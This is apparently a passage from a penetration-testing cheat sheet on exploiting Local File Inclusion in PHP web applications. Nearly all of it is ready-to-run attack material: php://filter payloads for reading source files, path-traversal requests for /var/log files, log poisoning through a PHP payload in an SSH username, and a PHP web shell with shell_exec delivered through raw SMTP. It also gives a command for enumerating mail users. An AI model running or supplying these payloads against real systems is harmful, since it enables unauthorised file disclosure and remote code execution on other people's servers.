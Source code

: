 ```bash
http://<target_url>/file.php?recurse=php://filter/read=string.rot13/resource=<file_name>
```

-   **PHP Wrapper:**

```bash
curl "http://<TARGET>/index.php?page=php://filter/convert.base64-encode/resource=<FILE>"
```

## Remote Code Execution via LFI

### Log Poisoning (Apache or SSH Logs)

If log files such as `/var/log/apache2/access.log` or `/var/log/auth.log` are accessible through LFI, you can inject malicious code into the logs to achieve RCE.

1.  Verify if log files can be accessed via LFI:

```bash
http://<target_url>/file.php?recurse=../../../../../var/log/apache2/access.log
```

2.  Inject a malicious PHP payload into the logs via SSH:

```bash
ssh "<?php system('whoami'); ?>"@<target>
```

3.  Access the log file via LFI to execute the payload:

```bash
http://<target_url>/file.php?recurse=../../../../../var/log/auth.log
```

### Mail PHP Execution (RCE via Email)

Using LFI, after enumerating users (e.g., `/etc/passwd`), you can attempt to execute PHP code through a mail server by embedding PHP in email data.

1.  Connect to the mail server:

```bash
telnet <target_ip> 25
```

2.  Inject PHP payload into the email service:

```bash
HELO localhost
MAIL FROM:<root>
RCPT TO:<www-data>
DATA
<?php echo shell_exec($_REQUEST['cmd']); ?>
.
```

3.  If unsure about the users on the system, perform user enumeration:

```bash
smtp-user-enum -M VRFY -U <username_list> -t <target_ip>
```
